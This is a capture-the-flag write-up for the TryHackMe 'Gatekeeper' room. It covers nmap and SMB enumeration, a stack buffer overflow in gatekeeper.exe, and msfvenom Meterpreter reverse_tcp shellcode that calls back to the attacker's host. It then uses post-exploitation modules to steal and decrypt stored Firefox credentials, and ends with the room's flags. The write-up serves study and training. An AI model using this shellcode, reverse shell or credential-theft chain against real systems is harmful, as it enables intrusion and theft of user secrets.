



# Gatekeeper

Can you get past the gate and through the fire?

[Gatekeeper](https://tryhackme.com/room/gatekeeper)

## Topic's

- Network Enumeration
- SMB Enumeration
- Reverse Engineering
- Buffer Overflow
- Meterpreter (enum_applications)
- Meterpreter (firefox_creds)

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Approach the Gates

Deploy the machine when you are ready to release the Gatekeeper.

1. No Answer Needed

`No answer needed`

## Task 2 Defeat the Gatekeeper and pass through the fire.

Defeat the Gatekeeper to break the chains. But beware, fire awaits on the other side.

```
kali@kali:~/CTFs/tryhackme/Gatekeeper$ sudo nmap -A -sS -sC -sV -O 10.10.119.230
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 12:07 CET
Nmap scan report for 10.10.119.230
Host is up (0.029s latency).
Not shown: 990 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2020-10-28T11:10:23+00:00; +1s from scanner time.
31337/tcp open  Elite?
| fingerprint-strings:
|   FourOhFourRequest:
|     Hello GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0
|     Hello
|   GenericLines:
|     Hello
|     Hello
|   GetRequest:
|     Hello GET / HTTP/1.0
|     Hello
|   HTTPOptions:
|     Hello OPTIONS / HTTP/1.0
|     Hello
|   Help:
|     Hello HELP
|   Kerberos:
|     Hello !!!
|   LDAPSearchReq:
|     Hello 0
|     Hello
|   LPDString:
|     Hello
|     default!!!
|   RTSPRequest:
|     Hello OPTIONS / RTSP/1.0
|     Hello
|   SIPOptions:
|     Hello OPTIONS sip:nm SIP/2.0
|     Hello Via: SIP/2.0/TCP nm;branch=foo
|     Hello From: <sip:nm@nm>;tag=root
|     Hello To: <sip:nm2@nm2>
|     Hello Call-ID: 50000
|     Hello CSeq: 42 OPTIONS
|     Hello Max-Forwards: 70
|     Hello Content-Length: 0
|     Hello Contact: <sip:nm@nm>
|     Hello Accept: application/sdp
|     Hello
|   SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|_    Hello
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.80%I=7%D=10/28%Time=5F9950F1%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,24,"Hello\x20GET\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")%
SF:r(SIPOptions,142,"Hello\x20OPTIONS\x20sip:nm\x20SIP/2\.0\r!!!\nHello\x2
SF:0Via:\x20SIP/2\.0/TCP\x20nm;branch=foo\r!!!\nHello\x20From:\x20<sip:nm@
SF:nm>;tag=root\r!!!\nHello\x20To:\x20<sip:nm2@nm2>\r!!!\nHello\x20Call-ID
SF::\x2050000\r!!!\nHello\x20CSeq:\x2042\x20OPTIONS\r!!!\nHello\x20Max-For
SF:wards:\x2070\r!!!\nHello\x20Content-Length:\x200\r!!!\nHello\x20Contact
SF::\x20<sip:nm@nm>\r!!!\nHello\x20Accept:\x20application/sdp\r!!!\nHello\
SF:x20\r!!!\n")%r(GenericLines,16,"Hello\x20\r!!!\nHello\x20\r!!!\n")%r(HT
SF:TPOptions,28,"Hello\x20OPTIONS\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n
SF:")%r(RTSPRequest,28,"Hello\x20OPTIONS\x20/\x20RTSP/1\.0\r!!!\nHello\x20
SF:\r!!!\n")%r(Help,F,"Hello\x20HELP\r!!!\n")%r(SSLSessionReq,C,"Hello\x20
SF:\x16\x03!!!\n")%r(TerminalServerCookie,B,"Hello\x20\x03!!!\n")%r(TLSSes
SF:sionReq,C,"Hello\x20\x16\x03!!!\n")%r(Kerberos,A,"Hello\x20!!!\n")%r(Fo
SF:urOhFourRequest,47,"Hello\x20GET\x20/nice%20ports%2C/Tri%6Eity\.txt%2eb
SF:ak\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")%r(LPDString,12,"Hello\x20\x01d
SF:efault!!!\n")%r(LDAPSearchReq,17,"Hello\x200\x84!!!\nHello\x20\x01!!!\n
SF:");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/28%OT=135%CT=1%CU=37648%PV=Y%DS=2%DC=T%G=Y%TM=5F995
OS:1DA%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%T
OS:S=7)OPS(O1=M508NW8ST11%O2=M508NW8ST11%O3=M508NW8NNT11%O4=M508NW8ST11%O5=
OS:M508NW8ST11%O6=M508ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2
OS:000)ECN(R=Y%DF=Y%T=80%W=2000%O=M508NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=
OS:Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%R
OS:D=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=
OS:0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U
OS:1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DF
OS:I=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: GATEKEEPER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h00m00s, deviation: 2h00m00s, median: 0s
|_nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 02:96:1a:44:9e:41 (unknown)
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-10-28T07:10:08-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-10-28T11:10:08
|_  start_date: 2020-10-28T11:04:15

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   28.43 ms 10.8.0.1
2   29.15 ms 10.10.119.230

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 249.17 seconds
```

```
kali@kali:~/CTFs/tryhackme/Gatekeeper$ smbclient -L \\10.10.119.230
Enter WORKGROUP\kali's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk
SMB1 disabled -- no workgroup available
kali@kali:~/CTFs/tryhackme/Gatekeeper$ smbclient \\\\10.10.119.230\\Users
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri May 15 03:57:08 2020
  ..                                 DR        0  Fri May 15 03:57:08 2020
  Default                           DHR        0  Tue Jul 14 09:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 06:54:24 2009
  Share                               D        0  Fri May 15 03:58:07 2020

                7863807 blocks of size 4096. 3878855 blocks available
smb: \Share\> get gatekeeper.exe
getting file \Share\gatekeeper.exe of size 13312 as gatekeeper.exe (52.4 KiloBytes/sec) (average 52.4 KiloBytes/sec)
smb: \Share\> exit
```

```
kali@kali:~/CTFs/tryhackme/Gatekeeper$ msf-pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

```py
#!/usr/bin/python

import socket

host = "192.168.178.56"
port = 31337

# msf-pattern_create -l 200
# Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
pattern = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

io=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
io.connect((host, port))
io.send(pattern + "\n")

io.close()

```



EIP = `39654138`

```
kali@kali:~/CTFs/tryhackme/Gatekeeper$ msf-pattern_offset -l 200 -q 39654138
[*] Exact match at offset 146
```

offset = `146`



ESP address = `080414C3`

```
kali@kali:~/CTFs/tryhackme/Gatekeeper$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.106.222 LPORT=9001 -b "\x00\x0a" -f py --var-name shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of py file: 2067 bytes
shellcode =  b""
shellcode += b"\xdb\xd6\xbf\x29\x1c\x73\x85\xd9\x74\x24\xf4"
shellcode += b"\x5b\x31\xc9\xb1\x56\x83\xeb\xfc\x31\x7b\x14"
shellcode += b"\x03\x7b\x3d\xfe\x86\x79\xd5\x7c\x68\x82\x25"
shellcode += b"\xe1\xe0\x67\x14\x21\x96\xec\x06\x91\xdc\xa1"
shellcode += b"\xaa\x5a\xb0\x51\x39\x2e\x1d\x55\x8a\x85\x7b"
shellcode += b"\x58\x0b\xb5\xb8\xfb\x8f\xc4\xec\xdb\xae\x06"
shellcode += b"\xe1\x1a\xf7\x7b\x08\x4e\xa0\xf0\xbf\x7f\xc5"
shellcode += b"\x4d\x7c\x0b\x95\x40\x04\xe8\x6d\x62\x25\xbf"
shellcode += b"\xe6\x3d\xe5\x41\x2b\x36\xac\x59\x28\x73\x66"
shellcode += b"\xd1\x9a\x0f\x79\x33\xd3\xf0\xd6\x7a\xdc\x02"
shellcode += b"\x26\xba\xda\xfc\x5d\xb2\x19\x80\x65\x01\x60"
shellcode += b"\x5e\xe3\x92\xc2\x15\x53\x7f\xf3\xfa\x02\xf4"
shellcode += b"\xff\xb7\x41\x52\xe3\x46\x85\xe8\x1f\xc2\x28"
shellcode += b"\x3f\x96\x90\x0e\x9b\xf3\x43\x2e\xba\x59\x25"
shellcode += b"\x4f\xdc\x02\x9a\xf5\x96\xae\xcf\x87\xf4\xa6"
shellcode += b"\x3c\xaa\x06\x36\x2b\xbd\x75\x04\xf4\x15\x12"
shellcode += b"\x24\x7d\xb0\xe5\x3d\x69\x43\x39\x85\xfa\xbd"
shellcode += b"\xba\xf5\xd3\x79\xee\xa5\x4b\xab\x8f\x2e\x8c"
shellcode += b"\x54\x5a\xda\x86\xc2\x6f\x12\xfd\xcc\x18\x20"
shellcode += b"\x01\xd2\xf1\xad\xe7\x44\x52\xfd\xb7\x24\x02"
shellcode += b"\xbd\x67\xcd\x48\x32\x57\xed\x72\x99\xf0\x84"
shellcode += b"\x9c\x77\xa8\x30\x04\xd2\x22\xa0\xc9\xc9\x4e"
shellcode += b"\xe2\x42\xfb\xaf\xad\xa2\x8e\xa3\xda\xd4\x70"
shellcode += b"\x3c\x1b\x71\x70\x56\x1f\xd3\x27\xce\x1d\x02"
shellcode += b"\x0f\x51\xdd\x61\x0c\x96\x21\xf4\x24\xec\x14"
shellcode += b"\x62\x08\x9a\x58\x62\x88\x5a\x0f\xe8\x88\x32"
shellcode += b"\xf7\x48\xdb\x27\xf8\x44\x48\xf4\x6d\x67\x38"
shellcode += b"\xa8\x26\x0f\xc6\x97\x01\x90\x39\xf2\x11\xd7"
shellcode += b"\xc5\x80\x3d\x70\xad\x7a\x7e\x80\x2d\x11\x7e"
shellcode += b"\xd0\x45\xee\x51\xdf\xa5\x0f\x78\x88\xad\x9a"
shellcode += b"\xed\x7a\x4c\x9a\x27\xda\xd0\x9b\xc4\xc7\xe3"
shellcode += b"\xe6\xa5\xf8\x04\x17\xac\x9c\x05\x17\xd0\xa2"
shellcode += b"\x3a\xc1\xe9\xd0\x7d\xd1\x4d\xea\xc8\x74\xe7"
shellcode += b"\x61\x32\x2a\xf7\xa3"
```

```
kali@kali:~/CTFs/tryhackme/Gatekeeper$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.178.57
LHOST => 192.168.178.57
msf5 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.178.57:9001
```

```
[*] Sending stage (176195 bytes) to 10.10.158.239
[*] Meterpreter session 2 opened (10.8.106.222:9001 -> 10.10.158.239:49175) at 2020-10-29 22:35:55 +0100

meterpreter > ls
Listing: C:\Users\natbat\Desktop
================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1197   fil   2020-04-21 23:00:32 +0200  Firefox.lnk
100666/rw-rw-rw-  282    fil   2020-04-21 22:57:04 +0200  desktop.ini
100777/rwxrwxrwx  13312  fil   2020-04-20 07:27:17 +0200  gatekeeper.exe
100777/rwxrwxrwx  135    fil   2020-04-22 00:51:58 +0200  gatekeeperstart.bat
100666/rw-rw-rw-  140    fil   2020-05-15 03:24:52 +0200  user.txt.txt

meterpreter > cat user.txt.txt
{H4lf_W4y_Th3r3}

The buffer overflow in this room is credited to Justin Steven and his
"dostackbufferoverflowgood" program.  Thank you!
```

```
meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on GATEKEEPER

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 Amazon SSM Agent                                                    2.3.842.0
 Amazon SSM Agent                                                    2.3.842.0
 EC2ConfigService                                                    4.9.4222.0
 EC2ConfigService                                                    4.9.4222.0
 EC2ConfigService                                                    4.9.4222.0
 EC2ConfigService                                                    4.9.4222.0
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.20.27508      14.20.27508
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.20.27508      14.20.27508
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.20.27508         14.20.27508
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.20.27508         14.20.27508
 Mozilla Firefox 75.0 (x86 en-US)                                    75.0


[+] Results stored in: /home/kali/.msf4/loot/20201029224002_default_10.10.158.239_host.application_541675.txt
```

```
meterpreter > run post/multi/gather/firefox_creds

[-] Error loading USER S-1-5-21-663372427-3699997616-3390412905-1000: Hive could not be loaded, are you Admin?
[*] Checking for Firefox profile in: C:\Users\natbat\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
[+] Downloaded cert9.db: /home/kali/.msf4/loot/20201029224135_default_10.10.158.239_ff.ljfn812a.cert_790820.bin
[+] Downloaded cookies.sqlite: /home/kali/.msf4/loot/20201029224136_default_10.10.158.239_ff.ljfn812a.cook_167160.bin
[+] Downloaded key4.db: /home/kali/.msf4/loot/20201029224138_default_10.10.158.239_ff.ljfn812a.key4_624528.bin
[+] Downloaded logins.json: /home/kali/.msf4/loot/20201029224140_default_10.10.158.239_ff.ljfn812a.logi_532867.bin

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\rajfzh3y.default
```

```
kali@kali:~/CTFs/tryhackme/Gatekeeper$ cp /home/kali/.msf4/loot/20201029224135_default_10.10.158.239_ff.ljfn812a.cert_790820.bin ./cert9.db
kali@kali:~/CTFs/tryhackme/Gatekeeper$ cp /home/kali/.msf4/loot/20201029224136_default_10.10.158.239_ff.ljfn812a.cook_167160.bin ./cookies.sqlite
kali@kali:~/CTFs/tryhackme/Gatekeeper$ cp /home/kali/.msf4/loot/20201029224138_default_10.10.158.239_ff.ljfn812a.key4_624528.bin ./key4.db
kali@kali:~/CTFs/tryhackme/Gatekeeper$ cp /home/kali/.msf4/loot/20201029224140_default_10.10.158.239_ff.ljfn812a.logi_532867.bin ./logins.json
```

```
kali@kali:~/CTFs/tryhackme/Gatekeeper$ sudo /opt/firefox_decrypt/firefox_decrypt.py ./
2020-10-29 22:54:18,141 - WARNING - profile.ini not found in ./
2020-10-29 22:54:18,141 - WARNING - Continuing and assuming './' is a profile location

Master Password for profile ./:
2020-10-29 22:54:31,027 - WARNING - Attempting decryption with no Master Password

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```



1. Locate and find the User Flag.

`{H4lf_W4y_Th3r3}`

2. Locate and find the Root Flag.

`{Th3_M4y0r_C0ngr4tul4t3s_U}`
